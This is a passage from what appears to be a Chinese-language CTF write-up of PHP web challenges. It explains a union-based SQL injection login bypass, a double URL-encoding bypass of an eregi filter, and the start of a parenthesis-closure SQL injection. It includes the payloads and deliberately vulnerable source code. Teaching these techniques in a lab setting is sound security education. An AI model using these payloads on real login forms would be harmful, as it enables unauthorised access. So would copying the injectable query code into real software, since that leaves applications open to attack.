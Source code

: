 ?user=' union select 'e10adc3949ba59abbe56e057f20f883e' #&pass=123456
```
前一个查询为空，后一个查询为已知的123456的md5值，与传入的pass相等，获得flag
```

## urldecode二次编码绕过

**部分源码**
```php
<?php
if(eregi("hackerDJ",$_GET[id])) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "hackerDJ")
{
  echo "<p>Access granted!</p>";
  echo "<p>flag: *****************} </p>";
}
?>
```

**思路分析**

浏览器会urldecode解码一次，PHP代码会urldecode解码一次，总共是两次解码，若只编码一次，会被eregi匹配拦截，故编码两次。payload如下:

```
?id = %2568ackerDJ
```

## sql闭合绕过

**部分源码**

```php
<?php
if($_POST[user] && $_POST[pass]) {
    $conn = mysql_connect("*******", "****", "****");
    mysql_select_db("****") or die("Could not select database");
    if ($conn->connect_error) {
        die("Connection failed: " . mysql_error($conn));
} 
$user = $_POST[user];
$pass = md5($_POST[pass]);

//select user from php where (user='admin')#
//exp:admin')#

$sql = "select user from php where (user='$user') and (pw='$pass')";
$query = mysql_query($sql);
if (!$query) {
    printf("Error: %s\n", mysql_error($conn));
    exit();
}
$row = mysql_fetch_array($query, MYSQL_ASSOC);
//echo $row["pw"];
  if($row['user']=="admin") {
    echo "<p>Logged in! Key: *********** </p>";
  }

  if($row['user'] != "admin") {
    echo("<p>You are not admin!</p>");
  }
}
```